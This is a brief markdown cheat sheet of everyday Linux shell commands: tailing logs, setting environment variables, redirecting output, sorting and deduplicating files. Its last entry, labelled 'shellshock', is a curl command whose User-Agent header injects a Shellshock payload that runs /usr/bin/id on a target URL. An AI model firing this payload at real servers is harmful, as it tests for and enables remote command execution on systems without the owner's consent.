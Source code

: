 ## Monitor error log (stream as file grows)
```
tail error.log -f -n 0
```

## Start application
```
xdg-open <programme> 
```

## Register variable
```
export <TESTING>=<Variable-text>
```

## Echo variable
```
echo $<Variable>
```

## Unset variable
```
unset <Variable>
```

## Write to file
```
echo <Hello> > <hello-txt>
```

## Append content from a file to another file
```
cat <file1-txt> >> <file2-txt>
```

## Add the amount of lines, words, and characters to file2-txt
```
cat <file1-txt> | <word-count> | cat > <file2-txt>
```

## Sort the content of a file (like cat)
```
sort <hello-txt>
```

## Save to sorted content to a new file
```
cat <file1-txt> | sort > <sorted-file1-txt>
```

## Sort and remove duplicates and save to a new file
```
sort <file1-txt> | uniq > <uniq-file1-txt>
```

## shellshock
```
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" <url>
```
